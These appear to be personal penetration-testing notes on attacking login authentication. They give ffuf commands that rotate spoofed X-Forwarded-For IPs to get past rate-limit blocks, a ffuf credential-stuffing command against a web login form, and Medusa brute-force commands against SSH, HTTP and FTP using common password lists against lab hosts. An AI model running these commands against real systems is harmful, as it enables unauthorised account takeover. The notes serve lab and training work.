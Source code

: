 #auth 
##### Bypass protection
1. Use header
```bash
for i in {1..10000}; do echo "$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256))"; done > random_ips.txt
```

```bash
ffuf -w random_ips.txt:IP -H 'X-Forwareded-For: IP'
```
1. IP block may be reset on success login or request counter may be reset
2. Account lock after a number of fail attempts
3. captcha
#### Basic usage
````shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````
#### Medusa
```shell
 medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

```shell-session
medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```

 Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).
```shell
medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```
[[FTP]]:
```
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```